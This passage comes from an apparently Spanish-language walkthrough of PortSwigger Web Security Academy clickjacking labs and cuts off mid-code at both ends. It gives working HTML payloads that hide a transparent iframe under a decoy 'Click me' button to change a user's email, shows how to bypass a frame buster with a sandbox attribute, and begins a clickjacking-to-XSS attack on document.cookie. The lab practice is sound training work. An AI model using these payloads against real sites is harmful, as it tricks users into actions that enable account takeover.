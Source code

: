 ```html
  src="https://ac681f121f04aa6b80980439004b0021.web-security-academy.net/email?email=alguien@algo.com"
></iframe>
```

### [Clickjacking with a frame buster script](https://portswigger.net/web-security/clickjacking/lab-frame-buster-script)

Este laboratorio está protegido por un frame buster que evita que se ejecute un frame en el sitio web. El objetivo es evitar el frame buster y realizar un ataque clickjacking que ejecute un Update Email.

La solución a este laboratorio es la misma que el anterior, pero agregando el atributo sandbox="allow-forms" en el tag del iframe.

```html
<style>
  iframe {
    position: relative;
    width: 500px;
    height: 700px;
    opacity: 0.0001;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 510px;
    left: 80px;
    z-index: 1;
  }
</style>
<div>Click me</div>
<iframe
  sandbox="allow-forms"
  src="https://ac791f371e807c5c8070fc3c01b80050.web-security-academy.net/email?email=alguien@algo.com"
></iframe>
```

### [Exploiting clickjacking vulnerability to trigger DOM-based XSS](https://portswigger.net/web-security/clickjacking/lab-exploiting-to-trigger-dom-based-xss)

Este laboratorio contiene una vulnerabilidad XSS que se activa con un click. El objetivo es construir un ataque de clickjacking para ejecutar un XSS payload que imprime un alert con el contenido de document.cookie.

Al ir a la sección Submit Feedback y enviar un formulario, vemos que se imprime el nombre, por lo que se puede buscar el XSS mediante el envío de dicho parámetro como se muestra a continuación:

```html
<style>
  iframe {
    position: relative;
    width: 500px;
    height: 700px;
    opacity: 0.0001;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 620px;
    left: 80px;
    z-index: 1;
  }
```